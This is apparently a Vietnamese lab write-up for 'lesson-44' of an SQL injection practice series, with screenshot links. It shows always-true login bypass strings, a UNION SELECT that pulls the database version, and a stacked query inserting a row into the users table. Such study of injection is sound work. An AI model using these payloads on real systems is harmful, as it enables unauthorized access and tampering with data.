 # Những việc làm được với lesson-44
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-44 

![](../images/lesson43/screen_6.png)

Cũng giống như bài trước ta không thể injection tại `forgot` và `new user`. Ta lại thử cho giá trị luôn đúng và ta phải tìm cấu trúc của nó 

1. Cấu trúc giá trị luôn đúng 
```
user : 1' or '1'='1
pass : 1' or '1'='1
```

![](../images/lesson43/screen_7.png)

2. Cấu trúc union 
- Ta thấy nó có hiển thị user giống như bài trước chứng tỏ ta có thể sử dụng union giống bài trước để truy xuất dữ liệu 

```
user: 1' OR '1' = '1
pass: 1' union select 1,@@version,3 OR '1'='1 
```

![](../images/lesson44/screen_8.png)

Bài này giống lesson 42

1'; insert into users values (43,'lesson43','lesson43'); --+